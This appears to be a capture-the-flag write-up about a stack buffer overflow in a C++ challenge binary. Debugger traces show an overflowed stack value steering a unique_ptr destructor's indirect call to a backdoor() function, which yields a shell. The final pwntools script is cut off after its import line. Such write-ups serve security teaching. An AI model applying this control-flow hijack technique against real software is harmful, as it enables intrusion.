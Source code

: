 We go through and see this will cause SIGSEV when `rdx` doesn't point to a valid address, 
```cpp
   0x4027d7 <std::default_delete<BOFApp>::operator()(BOFApp*) const+29>    mov    rdx, qword ptr [rax]
   0x4027da <std::default_delete<BOFApp>::operator()(BOFApp*) const+32>    add    rdx, 8
 ► 0x4027de <std::default_delete<BOFApp>::operator()(BOFApp*) const+36>    mov    rdx, qword ptr [rdx]
   0x4027e1 <std::default_delete<BOFApp>::operator()(BOFApp*) const+39>    mov    rdi, rax
   0x4027e4 <std::default_delete<BOFApp>::operator()(BOFApp*) const+42>    call   rdx
```
As long as you control rax, you can control rdx, which results in arabitrary execution.

This function actually takes out the data from the stack (the original data is not user_canary, it is overwritten by overflow. The original data on the stack is a heap address) combined with the stack overflow above we can control rax .
```cpp
 0x4025c9 <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()+57>    mov    rbx, rax
   0x4025cc <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()+60>    mov    rax, qword ptr [rbp - 0x18]
   0x4025d0 <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()+64>    mov    rdi, rax
 ► 0x4025d3 <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()+67>    call   std::remove_reference<BOFApp*&>::type&& std::move<BOFApp*&>(BOFApp*&)                      <std::remove_reference<BOFApp*&>::type&& std::move<BOFApp*&>(BOFApp*&)>
        rdi: 0x4022c6 (main+73) ◂— call 0xffffffffe907ac13
        rsi: 0x4022f1 (main+116) ◂— endbr64 
        rdx: 0x1
        rcx: 0x4022f1 (main+116) ◂— endbr64
```
    
Finally, we manage to control rdx to point to `backdoor()` function.
```
 0x4027d5 <std::default_delete<BOFApp>::operator()(BOFApp*) const+27>             je     std::default_delete<BOFApp>::operator()(BOFApp*) const+44                      <std::default_delete<BOFApp>::operator()(BOFApp*) const+44>
 
   0x4027d7 <std::default_delete<BOFApp>::operator()(BOFApp*) const+29>             mov    rdx, qword ptr [rax]
   0x4027da <std::default_delete<BOFApp>::operator()(BOFApp*) const+32>             add    rdx, 8
   0x4027de <std::default_delete<BOFApp>::operator()(BOFApp*) const+36>             mov    rdx, qword ptr [rdx]
   0x4027e1 <std::default_delete<BOFApp>::operator()(BOFApp*) const+39>             mov    rdi, rax
 ► 0x4027e4 <std::default_delete<BOFApp>::operator()(BOFApp*) const+42>             call   rdx                           <backdoor()>
        rdi: 0x4eb0c0 (user_canary) ◂— 0x4eb0c0
        rsi: 0x4eb0c0 (user_canary) ◂— 0x4eb0c0
        rdx: 0x402263 (backdoor()) ◂— endbr64 
        rcx: 0x4022f1 (main+116) ◂— endbr64 
 
   0x4027e6 <std::default_delete<BOFApp>::operator()(BOFApp*) const+44>             nop    
   0x4027e7 <std::default_delete<BOFApp>::operator()(BOFApp*) const+45>             leave  
   0x4027e8 <std::default_delete<BOFApp>::operator()(BOFApp*) const+46>             ret    
 
   0x4027e9                                                                         nop    
   0x4027ea <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::get() const>    endbr64 
```  
Get a shell! 
```c
[DEBUG] Received 0x1c bytes:
    b'sh: 1: /readflag: not found\n'
sh: 1: /readflag: not found
```
Final script:
```python
from pwn import *
```